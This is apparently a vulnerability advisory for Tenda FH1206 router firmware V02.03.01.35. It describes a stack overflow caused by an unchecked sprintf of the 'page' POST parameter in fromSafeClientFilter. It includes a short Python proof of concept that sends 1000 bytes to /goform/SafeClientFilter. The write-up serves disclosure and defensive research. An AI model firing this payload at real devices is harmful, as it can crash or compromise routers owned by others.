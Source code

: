 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromSafeClientFilter` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v15, "firewall_clientlist.asp?page=%s", v10);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v15` array, thus triggering this security vulnerability.

![image-20240731134037581](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731134037581.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeClientFilter"
payload = b"a"*1000

data = {"page": payload, "menufacturer": "1"}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)